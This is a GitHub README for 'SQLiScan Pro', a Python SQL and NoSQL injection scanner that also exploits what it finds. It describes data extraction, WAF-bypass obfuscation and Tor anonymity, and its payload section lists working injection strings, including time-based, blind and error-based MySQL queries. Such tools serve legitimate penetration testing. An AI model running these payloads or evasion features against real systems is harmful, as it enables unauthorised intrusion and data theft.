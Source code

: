 # 🛡️ SQLiScan Pro

SQLiScan Pro is an advanced, asynchronous, and highly efficient SQL Injection vulnerability scanner and exploitation tool developed in Python. Designed for security professionals, penetration testers, and developers, it automates the process of detecting various types of SQL Injection flaws in web applications and, where possible, facilitates data extraction.

Leveraging asynchronous programming, sophisticated payload management, and comprehensive detection techniques, SQLiScan Pro provides robust and reliable vulnerability assessment.

---

## 🚀 Features

- **🧠 Comprehensive SQLi Detection:** Detects a wide range of vulnerabilities:
  - Error-Based SQLi
  - Blind SQLi (Content-Based, Length-Based)
  - Time-Based SQLi
  - UNION-Based SQLi
  - Basic NoSQL Injection (MongoDB, etc.)

- **🔍 DBMS Fingerprinting:** Detects backend DBMS like MySQL, MSSQL, Oracle, PostgreSQL, SQLite, MongoDB.

- **💥 Automated Exploitation (UNION-Based):**
  - DBMS version
  - Current user/database
  - Table & column names
  - Example user data

- **🛡️ WAF Bypass Techniques:**
  - Obfuscation (comments, newlines)
  - Encoding (URL, Hex, Char)
  - Case permutation

- **⚡ Async & Concurrent Scanning:** Uses `asyncio` + `aiohttp` for high performance.

- **🕵️ Tor Integration:** Optional Tor proxy support for anonymity.

- **🧠 Brute-force Protection Bypass:** Random delays to evade rate-limiting.

- **🔐 CSRF Token Management:** Auto handles dynamic tokens in POST forms.

- **🔁 Robust Error Handling:** Retries on network failures.

- **🔧 Custom Payload Support:** JSON-based extendable payload system.

- **📊 Detailed Reporting:** Outputs reports in HTML, JSON, and TXT formats.

- **🧩 Modular Architecture:** Easily extendable classes: `RequestHandler`, `PayloadManager`, etc.

- **📈 Improved Logging:** Verbose, colorful CLI logs.

---

## 📦 Prerequisites

- **Python:** 3.7+
- **Install Libraries:**

```bash
pip install aiohttp requests socks pdfkit jinja2 tqdm
```

- **Install `wkhtmltopdf`:**

```bash
# Linux (Debian/Ubuntu)
sudo apt-get install wkhtmltopdf

# Windows
# Download from https://wkhtmltopdf.org and add to PATH
```

- **(Optional) Tor Proxy:** Tor should be running on `127.0.0.1:9050`

---

## 🧰 Installation

```bash
git clone https://github.com/your-username/SQLiScan-Pro.git
cd SQLiScan-Pro
pip install -r requirements.txt
```

---

## 🧪 Usage

```bash
python lastsqload.py --help
```

### 📌 Example Usage

```bash
# Basic GET scan
python lastsqload.py -u "http://example.com/search.php?query=test"

# POST scan
python lastsqload.py -u "http://example.com/login.php" -m POST -d "username=admin&password=pass"

# With Tor & custom payloads
python lastsqload.py -u "http://example.com/product.php?id=1" -t -p my_payloads.json"

# Verbose with concurrency and headers
python lastsqload.py -u "http://example.com" -w 20 -v -H '{"User-Agent": "MyScanner", "X-Forwarded-For": "1.1.1.1"}'
```

---

## 🛠️ Configuration File (JSON)

```json
{
  "target_url": "http://example.com/api/products?id=1",
  "request_method": "GET",
  "post_data": null,
  "tor_enabled": true,
  "max_concurrency": 15,
  "payload_file": "custom_payloads.json",
  "scan_timeout": 600,
  "blind_sqli_delay": 7.0,
  "verbose": true,
  "headers": {
    "Authorization": "Bearer your_token_here",
    "Cookie": "PHPSESSID=your_session_id"
  }
}
```

```bash
python lastsqload.py -c config.json
```

---

## 💣 Payload System

Custom payloads via `payloads.json`:

```json
{
  "time_based": {
    "generic": ["' AND SLEEP(5)-- -"],
    "mysql": ["' AND SLEEP(5)#"],
    "nosql": [{"$where": "sleep(5000)"}]
  },
  "blind": {
    "generic": ["' AND '1'='1", "' AND '1'='2'"],
    "nosql": [{"$ne": 1}, {"$eq": 1}]
  },
  "error_based": {
    "mysql": ["' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(0x717a78,(SELECT USER()),FLOOR(RAND()*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -"],
    "generic": ["' OR 1=CAST((SELECT 1) AS INT)/0 --"]
  }
}
```

Supports modular extension via `payload_plugins/` folder.

---

## 📑 Reporting

Upon scan completion, detailed reports are generated:

- `HTML` (User-friendly format + PDF if wkhtmltopdf exists)
- `JSON` (Machine-readable)
- `TXT` (Plain summary)

Contents include:

- Target info
- Vulnerability types & payloads used
- Extracted data (if possible)
- Remediation tips

---

## 🤝 Contributing

PRs welcome!

```bash
git checkout -b feature/your-feature
# Make changes
git commit -m "Add feature"
git push origin feature/your-feature
# Then open a Pull Request
```

---

## 🧙‍♂️ Stay Secure & Scan Smart! 🧠